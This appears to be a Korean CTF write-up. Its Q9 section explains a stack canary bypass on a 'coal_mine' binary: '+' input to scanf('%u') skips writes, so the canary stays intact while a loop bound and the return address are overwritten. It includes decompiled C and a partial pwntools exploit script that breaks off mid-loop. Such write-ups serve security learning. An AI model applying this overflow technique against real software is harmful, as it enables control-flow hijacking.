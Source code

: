 Unity Reversing 문제이다.

추후에 풀겠슴니다.

## Q9

![](https://user-images.githubusercontent.com/32904385/65372516-647e5f80-dcac-11e9-8e96-5f9d7e23bf2a.png)

full relro, nx, pie가 걸려있고 따로 custom canary가 존재한다.
여기서 canary는 srand(time(0))로 rand값 가져오지만 scanf(%d,var[i])처럼 i 범위를 넘어서 카나리 값을 입력할 수 있을때 원래는 숫자만 가능하지만 문자가 입력되면 문자가 버퍼에 남아 %d를 통과하지만 +,-는 예외다. 버퍼에남지도 않고 해당 변수에 아무 값도 저장하지 않으므로 Canary bypass가 가능하다. 그래서 카나리를 손상시키지않고 return addresss만 변조시킬수 있다.

```c
int coal_mine()
{
  unsigned int v0; // eax
  int v2[16]; // [esp+8h] [ebp-60h]
  char name; // [esp+48h] [ebp-20h]
  int v4; // [esp+58h] [ebp-10h]
  int i; // [esp+5Ch] [ebp-Ch]

  memset(v2, 0, sizeof(v2));
  v0 = time(0);
  srand(v0);
  my_canary = rand();
  v2[0] = my_canary;
  v4 = 10;
  printf("Mine worker ID : ");
  fflush(stdout);
  __isoc99_scanf("%24s", &name);
  for ( i = 0; i < v4; ++i )
  {
    printf("Mineral%d : ", i + 1);
    fflush(stdout);
    __isoc99_scanf("%u", &v2[i]);
  }
  for ( i = 0; i < v4; ++i )
    printf("%d. 0x%08u\n", i, v2[i]);
  if ( v2[0] != my_canary )
  {
    puts("you can't escape my coal mine ..");
    exit(0);
  }
  return puts("my canaria is uninfected. i'm safety !");
}
```

v4를 조작해서 ebp-60에서 리턴 위치인 ebp+4까지 갈 수 있는 크기를 만들어주고 Canary는 +,-로 bypass해주면 된다.
마지막 ebp+4의 값은 treasure위치로 바꿔주면 된다. 그러면 treasure로 가서 flag를 딸 수있다.

```python
from pwn import *

#context.log_level = 'debug'
e = ELF('./coal_mine')
p = process('./coal_mine')

p.recvuntil('GOAL(')
magic = int(p.recv(10),16)
log.info('treasure : ' + hex(magic))

p.sendlineafter(': ','A'*16 + p32(26))
p.sendlineafter(':','+')
for i in range(24):
    p.sendlineafter(':','+')
```